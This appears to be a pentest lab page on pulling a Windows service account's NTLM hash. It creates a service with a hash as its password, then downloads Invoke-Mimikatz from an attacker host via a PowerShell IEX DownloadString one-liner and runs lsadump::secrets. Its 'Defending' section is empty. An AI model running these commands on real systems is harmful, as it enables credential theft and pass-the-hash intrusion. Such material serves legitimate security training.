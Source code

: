 ```yaml
---
description: >-
  It's possible to create custom services, which will run with a local or a
  domain account. When you have high enough privilege's, it's possible to
  retrieve the credentials of the service.
---
```


# Services

## Configuring

### Prerequisite&#x20;

* domain account, which will run the service.&#x20;

### Configuring

In the Prerequisite stands that we need a domain account, which will run the service. For this example we have created the user _noah_ onto the Domain Controller. We executed  the following command to create the user:

```
net user Noah haoNHasAStrongPassword321!@ /domain /add
```

1. Login with an `Administrator` account into the machine, where you want to configure the service. In our example we will configure this within `WS01`.
2. Open up _cmd.exe_
3. We're going to execute the command:

```
sc create <name> binPath="C:\nonexisting.exe" obj="<username>@<domain>" password="<plaintext password or NTLM hash of the user>"
```

The password of the service can be fake. So to make our attack a bit more fun, we're going to place the NTLM hash of the user `Noah`. This will enable us to make it a 'pass-the-hash' attack.

In our example we're going to execute the following command:

```
 sc create TryToReadThePassword binPath="C:\Program Files\OfThisService.exe" obj="Noah@Amsterdam" password="02671733e400aa35ad23828f5df3b676"
```

When executed, we will get a success message.

## Attacking

### How it works



### Tools

* [MimiKatz ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

### Executing the attack

For this attack we need a high priviliged user.

1. Start PowerShell as an Administrator.
2. Execute MimiKatz. This can be done in many ways. In our example we will be hosting Invoke-mimikatz.ps1 on our attacker machine. Download mimikatz into memory using the following command and then execute MimiKatz:

```
IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```

The result is that our freshly created service is shown, including with username and NTLM Hash:

![](../../../.gitbook/assets/image.png)

With the hash we can try to execute pass-the-hash attacks.

## Defending

### Recommendations

* a

### Detection



## References
